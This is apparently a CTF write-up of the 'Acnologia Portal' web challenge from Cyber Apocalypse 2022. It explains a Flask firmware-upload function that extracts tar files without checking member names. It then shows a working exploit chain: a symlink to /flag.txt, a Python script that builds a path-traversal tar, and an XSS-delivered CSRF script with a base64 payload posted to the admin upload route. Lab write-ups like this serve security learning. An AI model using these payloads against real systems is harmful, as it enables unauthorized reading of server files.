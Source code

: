 ```yaml
---
title: Acnologia Portal - Cyber Apocalypse CTF 2022
date: 2022-05-21 00:00:00 +0800
categories: [CTF, writeup]
tags: [web]     # TAG names should always be lowercase
toc: true
image:
  src: /assets/img/posts/cactf/CA_CTF_2022_Banner_01_Quote.png
  width: 500   # in pixels
  height: 200   # in pixels
  alt: ca banner
---
```


# Acnologia Portal
## Difficulty: medium
## Catigory: web



This is an unintended way and how i solve it during the CTF.

## Discovering
Looking at the website page there is a normal login and signup.

After create account found a button to submit a bug.

First guess is XSS to steal admin cookie when reviewing the reported bug but id didn't work cookies are http only.


![challange-description](/assets/img/posts/cactf/rebort_bug.png)
_report bug form_

## Code Review
Looking at the code found an interesting function `extract_firmware`.

It is used to upload and extract tar file on a random generated file at the server static file.

The function save the file using the given `filename` after joined to `tmp` without proper checking.

You can menapulate `filname` or name of files inside tar.

```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```
{: file="util.py" }

And this function only called from this route `/firmware/upload` that require admin previliges.

```python
@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403
```
{: filename="routes.py"}

## Attacking

- Created a `symlink` file point to a flag.txt at the '/'

```shell
ln -s /flag.txt flagln.txt
```
{: .nolineno }


- Create a custom tar file using `arcname` parameter to specify the name we want.

```python
import tarfile
tar = tarfile.open("payload.tar.gz", "w:gz")
tar.add(name="flagln.txt", arcname="../app/application/static/flagln.txt")
tar.close()
```
- Convert `payload.tar.gz` to base64
- Send CSRF payload

```html
<script>
payload = atob('H4sICPrDi2IC/3BheWxvYWQudGFyAO3UzYrCMBSG4ay9il5B/pp6dCG4dDm3ELQ6hVZFI/TyTWdgdCO6cEYY3wfCCSeBnM0XbbSZf8R+UcdVfVC/wn67Va0tw2U/9J31zquiV3/gdEzxkJ9X78lPii41XT1z46osfTUJoqfiKpHxSOHf09rE/X5YbbOMqdltTQ5EapZm3cZNu9WpT8/Iv4gM1Ullr+tP5l3wwUvIf0Hu5/Tn64X/muEZEzyQ/y5+drvT6ua9e+cAAAAAAAAAAAAAAADAC5wBT7HVYAAoAAA=')

u8arr = new Uint8Array(payload.length)

for(let i = 0; i < payload.length; i++) {
    u8arr[i] = payload.charCodeAt(i)
}

tar = new File([u8arr], 'payload.tar.gz', {type:"application/gzip"})

var formData = new FormData()

formData.append('file', tar)

var request = new XMLHttpRequest()
request.open("POST", "/api/firmware/upload")
request.send(formData)

</script>
```
{: file="CSRF" }

- Open `static/flagln.txt` and it reads the flag
![challange-description](/assets/img/posts/cactf/flag.png)
_flag_



